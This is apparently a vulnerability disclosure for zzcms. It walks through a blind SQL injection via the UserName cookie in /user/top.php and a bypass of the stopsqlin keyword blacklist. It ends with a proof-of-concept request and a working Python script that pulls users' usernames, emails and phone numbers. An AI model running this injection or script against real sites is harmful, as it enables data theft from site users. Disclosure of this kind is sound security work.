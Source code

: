 # /user/top.php
First we can find sql operation in `/user/top.php`
```
function ShowUserSf(){
	if ($_COOKIE["UserName"]<>"" ){
		$sql="select groupname,grouppic from zzcms_usergroup where groupid=(select groupid from zzcms_user where username='".$_COOKIE["UserName"]."')";
        $rs=query($sql);
		$row=fetch_array($rs);
		$rownum=num_rows($rs);
		if ($rownum){
        $str= "<b>".$row["groupname"]."</b><img src='../".$row["grouppic"]."'> " ;
		}
 		   
		$sql="select groupid,totleRMB,startdate,enddate from zzcms_user where username='" .$_COOKIE["UserName"]. "'";
        $rs=query($sql);
		$row=fetch_array($rs);
		$rownum=num_rows($rs);
		if ($rownum){
			if ($row["groupid"]>1){
			$str=$str ."服务时间：".$row["startdate"]." 至 ".$row["enddate"];
			}elseif ($row["groupid"]==1){
			$str=$str . "<a href='../one/vipuser.php' target='_blank'>查看我的权限</a>";
			}
		}else{
			$str=$str . "用户不存在";
		}		
		
	}else{
	$str=$str. "您尚未登录";
	}
echo $str;			 
}
?>	
```

It seems vulnerable to boolean based blind sql injection since parameter `$_COOKIE["UserName"]` is not filterd

![]()

By finding usage, we can find `/user/ask.php` is one of pages who include `/user/top.php` 

```
<?php
include("top.php");
?>
...

}
```

In `/user/ask.php`
```
<?php
include("../inc/conn.php");
include("check.php");
?>
```

`check.php` is used to check whether visitor has logged in
```
<?php
if (!isset($_COOKIE["UserName"]) || !isset($_COOKIE["PassWord"])){
    echo "<script>location.href='/user/login.php';</script>";
}else{
    //verify username and password
}
?>
```
if the attacker submits cookies like `Cookie: UserName=foo`, without `PassWord`, only codes in `if` will be executed. However, codes in `if` merely echo javascript to html. As a result, the rest of codes in `ask.php` which use parameter `$_COOKIE["UserName"]` will still be executed.

In `/inc/conn.php`, we can find
```
include(zzcmsroot."/inc/stopsqlin.php");
```

and in `/inc/stopsqlin.php`
```
function stopsqlin($str){
if(!is_array($str)) {//有数组数据会传过来比如代理留言中的省份$_POST['province'][$i]
	$str=strtolower($str);//否则过过滤不全
	
	$sql_injdata = "";
	$sql_injdata= $sql_injdata."|".stopwords;
	$sql_injdata=CutFenGeXian($sql_injdata,"|");
	
    $sql_inj = explode("|",$sql_injdata);
	for ($i=0; $i< count($sql_inj);$i++){
		if (@strpos($str,$sql_inj[$i])!==false) {showmsg ("参数中含有非法字符 [".$sql_inj[$i]."] 系统不与处理");}
	}
}	
}
	
$r_url=strtolower($_SERVER["REQUEST_URI"]);
if (checksqlin=="Yes") {
if (strpos($r_url,"siteconfig.php")==0 && strpos($r_url,"label")==0 && strpos($r_url,"template.php")==0) {
foreach ($_GET as $get_key=>$get_var){ stopsqlin($get_var);} /* 过滤所有GET过来的变量 */      
foreach ($_POST as $post_key=>$post_var){ stopsqlin($post_var);	}/* 过滤所有POST过来的变量 */
foreach ($_COOKIE as $cookie_key=>$cookie_var){ stopsqlin($cookie_var);	}/* 过滤所有COOKIE过来的变量 */
foreach ($_REQUEST as $request_key=>$request_var){ stopsqlin($request_var);	}/* 过滤所有request过来的变量 */
}
}
?>
```
which means all parameters in `$_GET`, `$_POST`, `$_COOKIE`, `$_REQUEST` are filterd while blacklist--`stopwords` is defined in `/inc/config.php`

```
define('stopwords','select|update|and|or|delete|insert|truncate|char|into|iframe|script|得普利麻|易瑞沙|益赛普|赫赛汀|日达仙|百泌达|多吉美|拜科奇|赛美维|施多宁|派罗欣|妥塞敏|格列卫|特罗凯|手机窃听器|手枪') ;//网站禁用关键字
```

Although we can't use `select` and `or`, we can still query in the same table `zzcms_user`

![](https://raw.githubusercontent.com/Ling-Yizhou/zzcms-vuln/master/img/columns.png)

# POC
```
GET /user/ask.php HTTP/1.1
User-Agent: PostmanRuntime/7.25.0
Accept: */*
Cache-Control: no-cache
Postman-Token: 61080183-d3aa-4674-943d-dfb56440c9ac
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Connection: close
Cookie: UserName=' || '1'='1'#
```


![](https://raw.githubusercontent.com/Ling-Yizhou/zzcms-vuln/master/img/boolture.png)
![](https://raw.githubusercontent.com/Ling-Yizhou/zzcms-vuln/master/img/boolfalse.png)




# exp
```
import requests
import string

url = 'http://127.0.0.1/user/ask.php'
result = []


def get_column_by_id(uid, column):
    result = ''
    for x in range(50):
        flag = 1
        for i in string.ascii_letters + string.digits + '@.':
            cookies = {
                'UserName': f"' || {column} like '{result}{i}%' && id = {uid}#"
            }
            response = requests.get(url, cookies=cookies)
            # print(response.text)
            if "查看我的权限</a>)" in response.text:
                result += i
                break
            if i == '.':
                flag = 0

        if flag == 0:
            break

        print(f'[+] id: {uid}, {column}: ' + result)
    return result


for uid in range(1, 10):
    column_list = ['username','email','phone']
    tmp = [get_column_by_id(uid, i) for i in column_list]
    if '' not in tmp:
        result.append(tmp)

print(result)
```
Results
![](https://raw.githubusercontent.com/Ling-Yizhou/zzcms-vuln/master/img/sqli.png)
